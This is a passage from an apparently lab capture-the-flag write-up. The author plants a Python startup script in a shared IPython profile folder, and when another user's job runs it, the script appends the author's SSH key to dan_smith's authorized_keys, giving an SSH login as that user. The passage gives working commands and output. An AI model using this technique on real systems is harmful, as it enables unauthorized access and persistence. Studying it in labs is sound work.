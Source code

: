 To abuse this, I’ll write a Python script that just makes sure the `.ssh` directory for dan\_smith exists, and then appends my key to the the `authorized_keys` file:

```

import os

os.makedirs("/home/dan_smith/.ssh", exist_ok=True)
f=open("/home/dan_smith/.ssh/authorized_keys", "a")
f.write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing")
f.close()

```

It seems that the folders / files in `/opt/scripts_review` get cleared out fairly regularly, so I’ll craft one line that generates the folders, makes sure they are writable by other users, and then writes the script:

```

james_mason@shared:/opt/scripts_review$ mkdir -p profile_default/startup; \
> chmod -R 777 profile_default; \
> echo 'import os; os.makedirs("/home/dan_smith/.ssh", exist_ok=True); f=open("/home/dan_smith/.ssh/authorized_keys", "a"); f.write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing"); f.close()' > profile_default/startup/0xdf.py

```

Once the script runs again, I can SSH into the box as dan\_smith:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen dan_smith@shared.htb
Linux shared 5.10.0-12-amd64 #1 SMP Debian 5.10.103-1 (2022-03-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jul 12 11:22:01 2022 from 10.10.14.6
dan_smith@shared:~$ 

```

And grab `user.txt`:

```

dan_smith@shared:~$ cat user.txt
ffacd863************************

```
